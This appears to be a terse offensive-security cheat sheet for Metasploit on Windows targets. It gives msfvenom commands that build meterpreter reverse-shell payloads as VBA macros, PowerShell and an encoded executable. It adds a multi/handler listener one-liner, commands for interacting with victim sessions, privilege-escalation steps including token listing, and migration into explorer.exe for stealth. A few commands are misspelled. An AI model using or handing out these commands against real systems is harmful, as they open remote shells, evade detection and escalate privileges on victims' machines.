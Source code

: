 VBA MSF
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9988 -f vba-exe
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9988 -f vba-psh

Generate payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -e x86/shikata_ga_nai -f exe > payload.exe

Use listener
msfconsole -q -x "set payload windows/meterpreter/reverse_tcp;use exploit/multi/handler;set LHOST 192.168.1.1;set LPORT 4444;set ExitOnSession false;exploit -j;"

Inteactions with sessions
session -i 1  (means interact with session 1)
shell (Launches cmd on victim machine)
bg (backgrounding current meterpreter session)

PrivEsc Tool
run post/multi/recon/local_exploit_suggester
set SESSIOS 1
load incognito
list tokens -u 

Stealthy Operations
migrate -N explorer.exe
run post/windows/manage/migrate

VBA PowerShell Dropper
VBA Powercat